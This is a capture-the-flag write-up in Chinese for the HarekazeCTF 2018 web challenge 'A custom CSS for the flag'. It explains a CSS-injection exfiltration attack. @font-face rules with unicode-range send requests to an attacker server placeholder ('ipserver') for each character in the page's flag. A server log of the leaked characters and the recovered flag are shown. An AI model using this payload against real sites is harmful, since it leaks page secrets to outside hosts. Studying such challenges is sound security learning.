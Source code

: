 # A custom CSS for the flag
## Challenge details
|       Event        | Challenge | Category | Points  |
|:-------------------|:----------|:---------|:-------:|
|        HarekazeCTF 2018            |     A custom CSS for the flag      |    Web      |    250     |

### Description
> Let’s decorate with fashionable CSS in this site.
### Attachments
> [server.js](server.js)
## Solution
查看server.js，可以看到这个网站的逻辑是我们将一个css文件的网址写入输入框，后台接收到参数后，调用chromium访问本地的另外一个3002端口的server  
在3002的server中，程序会返回
```html
<html>
    <link rel="stylesheet" href="${encodeURI(req.query.css)}" />
    <body>
        <div id="flag">
                HarekazeCTF{${fs.readFileSync("flag.txt")}}
        </div>
    </body>
</html>
```
所以我们能影响到的只有包含的css文件  
我们可以通过font-face拿到flag的字符集  
[font-face](http://www.w3school.com.cn/css3/css3_font.asp)  
例如
```css
@font-face{
    font-family:'A';
    src:url('http://ipserver/?found:A');
    unicode-range:U+0041;
}
```
最后加上
```css
#flag{
    font-family:'A','B','C' ... 
}
```
这样当flag中有特定的字符时，就能向我们自己的服务器发送特定的请求  
最后生成css的代码见[generate.py](generate.py)  
上传css的地址后，我们就可以在我们的服务器上看到
```
163.43.29.129 - - [14/Feb/2018 13:23:11] "GET /?found:a HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:11] "GET /?found:b HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:11] "GET /?found:C HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:11] "GET /?found:d HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:11] "GET /?found:e HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:11] "GET /?found:F HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:H HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:o HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:k HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:r HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:T HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:z HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:{ HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:- HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:m HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:t HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:f HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:l HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:i HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:n HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:s HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:u HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:_ HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:c HTTP/1.1" 200 -
163.43.29.129 - - [14/Feb/2018 13:23:12] "GET /?found:} HTTP/1.1" 200 -
```
这样我们就得到了flag的字符集  
最后在所有css的属性中找到符合条件的属性  
http://www.w3school.com.cn/cssref/index.asp  
暴力提交一下  
HarekazeCTF{border-bottom-left-radius_animation-direction}

## Link
[font-face](http://www.w3school.com.cn/css3/css3_font.asp)  
[所有css属性](http://www.w3school.com.cn/cssref/index.asp)